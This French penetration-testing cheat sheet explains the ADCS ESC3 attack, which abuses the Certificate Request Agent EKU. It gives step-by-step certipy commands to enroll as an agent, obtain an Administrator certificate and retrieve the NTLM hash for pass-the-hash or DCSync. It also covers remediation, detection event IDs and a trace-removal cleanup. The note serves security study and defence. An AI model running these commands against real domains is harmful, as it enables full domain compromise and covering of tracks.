

## ADCS ESC3 (Enrollment Agent Impersonation)



## Définition

L'attaque **ESC3** exploite une configuration spécifique des modèles de certificats au sein des **ADCS** (Active Directory Certificate Services). Elle repose sur la présence de l'**EKU** (Extended Key Usage) *Certificate Request Agent* (ou *Enrollment Agent*).

> [!info]
> Le détenteur d'un certificat basé sur un modèle possédant l'**EKU** *Certificate Request Agent* peut demander des certificats pour le compte d'autres utilisateurs du domaine, facilitant ainsi une escalade de privilèges.

## Identification

L'identification des modèles vulnérables s'effectue via **certipy** en interrogeant les services de certificats du domaine.

```bash
certipy find -u lowpriv@domain.local -p Passw0rd -dc-ip <IP> -vulnerable
```

Les modèles vulnérables présentent la configuration suivante dans leurs propriétés :

```text
Extended Key Usage:
  Certificate Request Agent
```

> [!danger]
> La présence de l'**EKU** *Certificate Request Agent* constitue un vecteur d'attaque critique.

## Prérequis (permissions nécessaires sur le template)

Pour qu'un modèle soit exploitable via **ESC3**, les conditions suivantes doivent être remplies :

*   **EKU requis** : Le template doit posséder l'**EKU** *Certificate Request Agent* (OID: 1.3.6.1.4.1.311.20.2.1).
*   **Application Policies** : Le template doit autoriser l'émission de certificats basés sur des requêtes d'agent (Application Policies incluant *Certificate Request Agent*).
*   **Enrollment Rights** : L'utilisateur doit disposer des droits *Enroll* ou *Autoenroll* sur le modèle **ESC3**.

## Analyse des ACLs (Enrollment Rights)

L'analyse des droits d'enrôlement permet de déterminer quels comptes peuvent solliciter le modèle. Cette vérification est cruciale pour identifier les vecteurs d'accès initiaux.

```bash
certipy find -u lowpriv@domain.local -p Passw0rd -dc-ip <IP> -vulnerable -debug
```

Il faut examiner la section `Permissions` du template dans la sortie de **certipy** :

| Permission | Description |
| :--- | :--- |
| **Enroll** | Autorise l'utilisateur à demander un certificat basé sur ce modèle. |
| **Autoenroll** | Autorise l'enrôlement automatique via GPO. |
| **Write** | Permet de modifier les propriétés du template (ex: ajouter un groupe contrôlé par l'attaquant). |

> [!warning]
> Le template **ESC3** doit impérativement posséder l'**EKU** *Certificate Request Agent* pour autoriser l'usurpation d'identité.

## Étapes d'exploitation

### Étape 1 : Obtention du certificat d'agent d'enrôlement
L'attaquant demande un certificat basé sur le modèle **ESC3** identifié.

```bash
certipy req -username john@corp.local -password Passw0rd \
-ca corp-DC-CA -target ca.corp.local -template ESC3-Template
```

### Étape 2 : Génération du certificat pour la cible
En utilisant le certificat d'agent obtenu, l'attaquant demande un certificat pour un utilisateur privilégié (ex: **Administrator**).

```bash
certipy req -username john@corp.local -password Passw0rd \
-ca corp-DC-CA -target ca.corp.local -template User \
-on-behalf-of 'corp\Administrator' -pfx john.pfx
```

> [!tip]
> L'étape 2 nécessite le PFX généré à l'étape 1.

### Étape 3 : Authentification
Le certificat généré pour l'administrateur permet de s'authentifier auprès du **Domain Controller** pour obtenir un **TGT** ou le hash **NTLM**.

```bash
certipy auth -pfx administrator.pfx -dc-ip <IP_DC>
```

Exemple de sortie :
```text
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

Une fois le hash **NTLM** récupéré, il est possible d'effectuer une attaque **Pass-the-Hash** via **Evil-WinRM** ou une attaque **DCSync** avec **secretsdump.py**.

> [!danger]
> Le hash NTLM obtenu permet une élévation de privilèges totale (DCSync).

## Remédiation et Détection

### Remédiation
*   Supprimer les modèles utilisant l'**EKU** *Certificate Request Agent* si leur usage n'est pas strictement nécessaire.
*   Appliquer le principe du moindre privilège sur les **Enrollment Rights** des modèles de certificats.
*   Auditer régulièrement la configuration des **ADCS** avec des outils comme **Certipy**.

### Détection (logs Windows Event ID 4886/4887)
La détection repose sur l'analyse des journaux de l'autorité de certification :

*   **Event ID 4886** : *Certificate Services received a request*. Rechercher les requêtes avec l'extension *Certificate Request Agent*.
*   **Event ID 4887** : *Certificate Services approved a request and issued a certificate*. Analyser le champ *Requester* et le nom du sujet (*Subject*) pour identifier les disparités lors d'une usurpation *on-behalf-of*.

### Nettoyage post-exploitation
Après avoir obtenu les accès, il est impératif de supprimer les traces :

1.  **Suppression des fichiers** : Supprimer les fichiers `.pfx` et `.key` générés sur le disque de la machine compromise.
2.  **Purge des tickets** : Exécuter `klist purge` pour supprimer les tickets Kerberos en mémoire.
3.  **Révocation** : Si possible, révoquer les certificats émis frauduleusement via la console de gestion de l'autorité de certification (CA).

## Sujets liés
*   **ADCS ESC1**
*   **ADCS ESC2**
*   **Kerberos Delegation**
*   **DCSync Attack**